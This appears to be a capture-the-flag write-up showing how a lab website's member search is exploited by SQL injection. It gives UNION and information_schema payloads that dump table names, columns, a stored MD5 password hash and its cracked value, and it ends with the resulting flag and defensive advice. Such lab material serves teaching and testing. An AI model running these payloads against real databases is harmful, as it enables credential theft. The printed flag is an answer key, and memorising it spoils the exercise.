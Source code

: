 On the Search member by Id page, if we enter something, we get this message:  
> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1.  

-> The website is not protected against SQL injections.

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an *SQL injection UNION attack*.  

Information_schema is the table which contains meta-data, with information about all the tables and columns of the database.

- To see how many columns there are, we can use:  
```1 order by 1
1 order by 2
1 order by 3
etc...
```
-> We get an error at 3, therefore, there are 2 columns.
`Unknown column '3' in 'order clause'`

- To see all the users in a table  
`1 OR 1=1`  
-> We can also see that there are 2 columns (First name and Surname).

The following will show all the tables per database.  
> 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns 

Since 1=1 will always return true, the query will return all the items in the database.

![database](database.png)

-> We see that there is this user:  
```
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns 
First name: Member_Sql_Injection
Surname : users
```

-> The Member_Sql_Injection is in the USERS table.  

With `1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`  

![users](users_table.png)  

We can retrieve all the columns of the USERS table:  
```
user_id
first_name
last_name
town
country
planet
Commentaire
countersign
```

As the table only has 2 columns, we can only select 2 columns from the users table that we want to see.  
By selecting "Commentaire" and "countersign" from the USERS table, we get this:  
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```  

![users](users_table.png)  

With dcode, we see that the password is encrypted in MD5, and is **FortyTwo**.
fortytwo -> SH256 = `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


Attackers can use SQL Injections to find the credentials of other users in the database.  
They can then impersonate them, and gain complete access to all the data.
They can then alter/add/delete the data.

The only sure way to prevent SQL Injection attacks is input validation and parametrized queries including prepared statements.  
The application code should never use the input directly, potential malicious code elements such as single quotes must be removed from the inputs.
Also, it can be good to turn off the visibility of database errors on the website.